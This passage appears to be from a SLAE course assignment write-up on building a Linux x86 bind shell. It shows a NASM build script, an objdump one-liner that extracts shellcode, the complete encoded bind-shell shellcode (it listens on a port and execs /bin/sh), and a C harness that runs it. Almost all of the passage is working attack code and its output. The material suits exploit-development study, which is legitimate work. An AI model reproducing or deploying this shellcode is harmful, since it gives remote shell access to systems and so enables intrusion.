 ```
#!/bin/bash

echo '[+] Assembling with Nasm ... '
nasm -f elf32 -o $1.o $1.nasm

echo '[+] Linking ...'
ld -o $1 $1.o

echo '[+] Done!'
```

```
absolomb@ubuntu:~/SLAE/assignments/1$ ./compile.sh bind_shell
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Done!
```

To extract our shellcode out we'll use `objdump`.

```
absolomb@ubuntu:~/SLAE/assignments/1$ for i in $(objdump -d bind_shell |grep "^ " |cut -f2); do echo -n '\x'$i; done; echo
\x31\xc0\x31\xdb\x31\xc9\xb0\x66\xb3\x01\x51\x53\x6a\x02\x89\xe1\xcd\x80\x89\xc7\xb0\x66\x5b\x31\xd2\x52\x66\x68\x04\xd2\x66\x53\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\x31\xc0\x50\x57\x89\xe1\x43\x43\xb0\x66\xcd\x80\x31\xd2\x52\x52\x57\x43\x89\xe1\xb0\x66\xcd\x80\x93\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xd1\xb0\x0b\xcd\x80
```

Now we can use a simple C program to test out our shellcode.

```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\x31\xdb\x31\xc9\xb0\x66\xb3\x01\x51\x53\x6a\x02\x89\xe1\xcd\x80\x89\xc7\xb0\x66\x5b\x31\xd2\x52\x66\x68\x04\xd2\x66\x53\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\x31\xc0\x50\x57\x89\xe1\x43\x43\xb0\x66\xcd\x80\x31\xd2\x52\x52\x57\x43\x89\xe1\xb0\x66\xcd\x80\x93\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xd1\xb0\x0b\xcd\x80";

main()
{

	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}
```

Now compile with GCC without stack protection and run.
